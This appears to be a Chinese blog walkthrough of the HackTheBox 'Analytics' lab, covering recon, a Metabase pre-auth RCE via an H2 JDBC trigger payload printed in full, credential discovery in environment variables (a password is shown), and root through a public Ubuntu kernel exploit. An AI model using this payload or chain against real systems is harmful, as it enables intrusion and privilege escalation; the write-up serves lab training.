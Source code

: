 ```yaml
---
title: Analytics-HTB靶机
published: 2024-04-21
description: 'HackThebox-Easy难度靶机，现有poc，从信息收集至root权限全过程'
image: '{21F7B525-A074-4864-BDF8-B43E9D151E15}.png'
tags: ['HTB','Linux','Easy']
category: '靶机'
draft: false 
lang: ''
---
```

* 因原服务器到期，该文章从原服务器迁移至此，图片可能模糊，见谅
# 打点
拿到靶机地址，namp扫描开放端口，发现开放22，80端口
![](https://impos1.oss-cn-beijing.aliyuncs.com/20250827141509.png)
直接访问80端口自动跳转至analytical.htb，将域名加入hosts文件，之后访问域名。

大题浏览功能点，发现导航栏login链接data.analytical.htb,将其加入hosts文件。
![](https://impos1.oss-cn-beijing.aliyuncs.com/%7BF3A1E189-55C2-4010-AE02-E2EA47C643BF%7D.png)
访问data.analytical.htb，发现一个登录页，因为题目难度为easy，因此考虑是否是存在近期公开漏洞可直接getshell。
![](https://impos1.oss-cn-beijing.aliyuncs.com/%7BD604808B-FE78-489F-AA3C-AAECF04FAB84%7D.png)
阿里漏洞库检索，发现果然存在rce漏洞，并且存在公开poc。
![](https://impos1.oss-cn-beijing.aliyuncs.com/%7B5E6761B9-463A-4B39-BF31-6D3B18A4A3A1%7D.png)
网上检索POC，发现文章https://blog.csdn.net/qq_41904294/article/details/131990310。

首先获取set-token
``` http
GET /api/session/properties HTTP/1.1
Host: your-ip
``` 
![](https://impos1.oss-cn-beijing.aliyuncs.com/%7BBB202E5D-9382-4AC0-A8B3-7476C9D8FA6E%7D.png)
其次直接RCE
``` 
POST /api/setup/validate HTTP/1.1
Host: your-ip
Content-Type: application/json
 
{
    "token": "token值",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('执行的命令')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "test",
        "engine": "h2"
    }
}
``` 
![](https://impos1.oss-cn-beijing.aliyuncs.com/%7BDCA5FA51-22C2-4B39-A84C-F8FE03F8112A%7D.png)
拿到立足点
![](https://impos1.oss-cn-beijing.aliyuncs.com/20250827141757.png)
# 提权
## 信息收集
拿到立足点后直接搜索user.txt文件，无果，因此进一步信息收集。

为了方便，通过脚本linpeas进行信息收集，工具地址https://github.com/carlospolop/PEASS-ng

kali用python开一个http服务，靶机拿wget下载linpeas，脚本结果中发现env变量存在账户和口令，并且该靶机运行在docker容器下。顺便看一下靶机内网ip和arp表，发现靶机为172.17.0.2，arp表中存在172.17.0.1的机器，推测user.txt在172.16.0.1这个地址。
![](https://impos1.oss-cn-beijing.aliyuncs.com/%7BC677E0A3-F82D-41CF-A440-1A0DF3FBEABA%7D.png)
![](https://impos1.oss-cn-beijing.aliyuncs.com/%7B6E60D517-8379-4057-BA42-C4E1C1622127%7D.png)
![](https://impos1.oss-cn-beijing.aliyuncs.com/%7BC46861B6-BBF9-411C-A353-A093BA7FCFE3%7D.png)
账户密码是首先关注的，拿到两个账户metabase、metalytics，一个密码An4lytics_ds20223#

联想之前端口扫描结果，机器开启了ssh服务，尝试登录。

最终通过metalytics/An4lytics_ds20223#成功登录靶机。
![](https://impos1.oss-cn-beijing.aliyuncs.com/%7B71D6C7A0-20A7-4104-903F-9F26F1F082B7%7D.png)
该内网ip为172.17.0.1，拿到第一个flag
![](https://impos1.oss-cn-beijing.aliyuncs.com/20250827141932.png)
## Root
ssh登录后的banner信息提示系统为ubantu22.04.3，uname -a确认一下
![](https://impos1.oss-cn-beijing.aliyuncs.com/20250827142008.png)
先检索是否存在内核提权漏洞，google检索”ubuntu 22.04 提权“，发现存在提权漏洞。

![](https://impos1.oss-cn-beijing.aliyuncs.com/%7B1EE9B738-DFEB-4416-A603-4A8F7021B954%7D.png)
拿CVE编号去github找exp，

发现https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629/blob/main/exploit.sh

直接拿exp开打，拿下root权限。
![](https://impos1.oss-cn-beijing.aliyuncs.com/20250827142048.png)
# 总结
靶机总体难度不高，感觉主要考察细心和漏洞检索能力，漏洞细节网上均已公开，直接拿现成poc即可拿下本台靶机。